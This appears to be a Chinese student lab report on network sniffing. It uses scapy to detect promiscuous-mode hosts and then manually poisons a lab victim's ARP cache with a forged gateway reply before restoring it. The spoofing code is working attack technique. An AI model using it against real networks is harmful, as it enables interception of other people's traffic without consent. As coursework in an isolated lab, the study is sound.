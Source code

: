 # 网络监听

### 实验环境搭建

- 网络拓扑

  ![](img/实验拓扑图.png)

- 各主机结点信息

  - 攻击者主机
    - `08:00:27:bb:a1:1c`
    - `172.16.111.133`

  - 受害者主机
    - `08:00:27:3b:c4:f5`
    - `172.16.111.110`

  - 网关
    - `08:00:27:d5:7a:32`
    - `172.16.111.1`

### 实验准备

#### 安装 scapy

- 在攻击者主机上安装好 scapy

  ```bash
  # 安装 python3
  sudo apt update && sudo apt install python3 python3-pip
  
  # ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
  pip3 install scapy[complete]
  ```

  ![](img/下载python3.png)

  ![](img/下载scapy.png)

### 实验一检测局域网中的异常终端

- 在受害者主机上检查网卡的 `混杂模式` 是否启用

  ```bash
  ip link show eth0
  ```

  ![](img/查看是否开启混杂模式.png)

- 在攻击者主机上开启 scapy

  ```bash
  sudo scapy
  ```

  ![](img/开启scapy.png)

- 为查看混杂模式主机而发送ARP请求

  ```python
  # 在 scapy 的交互式终端输入以下代码回车执行
  pkt = promiscping("172.16.111.110")
  ```

  ![](img/pkt.png)

- 回到受害者主机上开启网卡的`混杂模式`

  ```bash
  # 注意上述输出结果里应该没有出现 PROMISC 字符串
  # 手动开启该网卡的「混杂模式」
  sudo ip link set eth0 promisc on
  ```

- 此时会发现输出结果里多出来了 `PROMISC`

  ```bash
  ip link show eth0
  ```

  ![](img/开启混杂模式.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异

  ```python
  pkt = promiscping("172.16.111.110")
  ```

  ![](img/观察差异.png)

  - 可以看到会显示受害者主机的 `ip地址` 和 `MAC地址`

- 在受害者主机上手动关闭该网卡的 `混杂模式`

  ```bash
  sudo ip link set eth0 promisc off
  ```

- 查阅资料，promiscping 命令会发送 `ARP who-has` 请求。

  > - 混杂模式 网卡能够接收所有经过它的数据流，而不论其目的地址是否是它
  > - 普通模式 网卡只接受发给自己地址的数据包


### 实验二：手工单步“毒化”目标主机的 ARP 缓存

- 获取当前局域网的网关 MAC 地址

  ```python
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  ![](img/获取当前局域网的网关MAC地址.png)

- 发送这个 ARP 广播请求

  ```python
  recved = srp(arpbroadcast, timeout=2)
  ```

- 网关 MAC 地址如下

  ```python
  gw_mac = recved[0][0][1].hwsrc
  gw_mac
  ```

  ![](img/查看mac地址.png)

- 伪造网关的 ARP 响应包

  ```python
  # 准备发送给受害者主机 172.16.111.110
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1 ", pdst="172.16.111.110", hwdst="08:00:27:bb:a1:1c")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```

  ![](img/伪造网关响应包.png)

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

  ```bash
  ip neigh
  ```

  ![](img/伪造成功.png)

- 恢复受害者主机的 ARP 缓存记录

  ```python
  # 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1 ",hwsrc="08:00:27:d5:7a:32", pdst="172.16.111.110", hwdst="08:00:27:3b:c4:f5")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  ![](img/恢复.png)

- 此时在受害者主机上准备“刷新”网关 ARP 记录

  ```bash
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  ![](img/恢复成功.png)

### 参考资料

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)
